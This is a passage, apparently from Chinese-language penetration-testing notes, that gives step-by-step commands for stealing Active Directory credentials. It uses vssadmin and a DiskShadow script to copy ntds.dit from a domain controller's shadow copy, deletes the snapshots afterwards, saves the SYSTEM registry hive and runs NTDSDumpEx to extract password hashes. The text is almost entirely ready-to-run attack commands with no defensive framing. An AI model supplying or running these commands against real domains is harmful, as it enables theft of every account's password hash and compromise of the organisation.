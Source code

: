 **2.Vssadmin**

域控制器默认安装

```bash
# 查询当前系统的快照
vssadmin list shadows

# 创建快照
vssadmin create shadow /for=c: /autoretry=10
"Shadow Copy Volume Name" 为 \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
"Shadow Copy ID" 为 {aa488f5b-40c7-4044-b24f-16fd041a6de2}

# 复制 ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\NTDS\ntds.dit c:\ntds.dit

# 删除快照
vssadmin delete shadows /for=c: /quiet
```

**3.Diskshadow**

DiskShadow 是由微软官方签名的，Windows Server 2008、2012、2016 都包含了 DiskShadow，所在目录C:\windows\system32\diskshadow.exe。包含交互式命令和脚本模式。

```bash
# 查看存放 `ntds.dit` 的逻辑驱动器（一般为 C 盘）
# 找出系统没有使用的逻辑驱动器号
wmic logicaldisk

# 调用脚本
C:\windows\system32\diskshadow.exe /s C:\shadow.txt
```

shadow.txt 内容

```sql
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "C:\windows\system32\cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\ntds.dit
delete shadows volume %someAlias%
reset
```

### **ntds.dit 提取 Hash**

**1.NTDSDumpEx**

```bash
# 离线模式：先导出注册表
reg save hklm\system system.hiv 
NTDSDumpEx.exe -d ntds.dit -s system.hiv -o hash.txt              

# 在线模式：无需导出注册表 
NTDSDumpEx.exe -d ntds.dit -r -o hash.txt            
```
